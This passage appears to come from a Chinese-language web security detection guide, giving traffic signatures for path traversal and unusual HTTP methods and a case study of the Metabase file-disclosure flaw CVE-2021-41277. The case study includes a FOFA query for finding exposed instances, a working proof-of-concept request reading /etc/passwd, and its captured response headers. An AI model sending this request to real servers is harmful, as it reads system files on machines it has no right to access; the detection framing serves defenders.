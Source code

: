```yml
HTTP-URL请求参数、HTTP-POST-Data请求参数中含有../、..//、..\、./.关键字
```

### 不安全的HTTP访问方法

Web中间件除支持标准的GET和POST方法外，还使用其它各种请求方法用于完成不常见的任务。如果低权限用户可以访问这些方法，他们就能够以此向应用程序实施有效攻击，比如可能会在Web服务器上传文件、修改文件或删除Web页面。

常见特征

```yml
Http-Method包含非GET、POST、HEAD的方法
```

## 案例

### Metabase敏感信息泄露漏洞（CVE-2021-41277）

metabase是一个简单、开源的数据分析平台。

在受影响的版本中，自定义GeoJSON地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息。

#### 影响版本

影响版本：

```yml
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

FOFA查询语句：app="metabase"

POC：/api/geojson?url=file:/etc/passwd

#### 检测日志

HTTP.log

#### 测试复现

```yml
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host: *.*.*.*:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Fri, 26 Nov 2021 12:34:30 GMT
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Last-Modified: Fri, 26 Nov 2021 20:34:30 +0800
Strict-Transport-Security: max-age=31536000
Set-Cookie: metabase.DEVICE=dd8c913f-87fb-483f-9e65-623657a0ca5a;HttpOnly;Path=/;SameSite=Lax;Expires=Sun, 17 Nov 2041 12:06:40 +0800
X-Permitted-Cross-Domain-Policies: none
Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval' https://maps.google.com https://apis.google.com https://www.google-analytics.com https://*.googleapis.com *.gstatic.com   'sha256-lMAh4yjVuDkQ9NqkK4H+YHUga+anpFs5JAuj/uZh0Rs=' 'sha256-sMNbXyc1lLzhHbH/CKs11HIQMnMkZAN2eA99WhJeEC0=' 'sha256-JJa56hyDfUbgNfq+0nq6Qs866JKgZ/+qCq2pkDJED8k='; child-src 'self' https://accounts.google.com; style-src 'self' 'unsafe-inline'; font-src 'self' ; img-src * 'self' data:; connect-src 'self' metabase.us10.list-manage.com ; manifest-src 'self';  frame-ancestors 'none';
```